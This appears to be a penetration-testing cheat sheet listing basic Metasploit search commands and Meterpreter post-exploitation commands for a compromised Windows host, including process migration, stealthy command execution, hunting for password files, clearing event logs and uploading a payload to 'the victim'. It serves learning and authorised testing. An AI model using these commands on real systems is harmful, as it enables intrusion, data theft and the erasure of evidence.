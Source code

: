 # o - Metasploit  Basic Usage

## Metasploit Basic cmds usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf > search cve:2008 netapi # search exploits by year/date.
msf > search type:exploit platform:windows
msf > search author:HDM # earch by HDM.
msf > show <tab_key> # show exploits, auxiliary, payloads etc..
msf > 
```
{% endcode %}

## Meterpreter Basic CMDs Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
# spawn/execute cmd prompt from a meterpreter session
meterpreter > pgrep <explorer> # search for the PID of explorer.
meterpreter > migrate <PID> # to migrate into a proess.
meterpreter > background # minimise the session.
meterpreter > execute -f cmd.exe -i H # launch any executable and interact with it stealthly. then you can execute cmd prompt cmds like: net user, net localgroup.
meterpreter > search -f password.* # search for all occurence of "password."
meterpreter > edit <file_path> # just like "nano/vim" in linux.
meterpreter > run post/ # tap tab button for more option. you can run modules.
meterpreter > run post/windows/gather/enum_applications # list all installed apps.
meterpreter > run post/windows/gather/enum_services # enum all running services.
meterpreter > ps # view all processes.
meterpreter > getpid # view our current process/
meterpreter > clearev # clear all logs (require admin priv).
meterpreter > ifconfig # for windows.
meterpreter > sysinfo # system information.
meterpreter > download # to download files.
meterpreter > upload payload.exe C:\\Users\\els\\Desktop # send files to the victim.
```
{% endcode %}

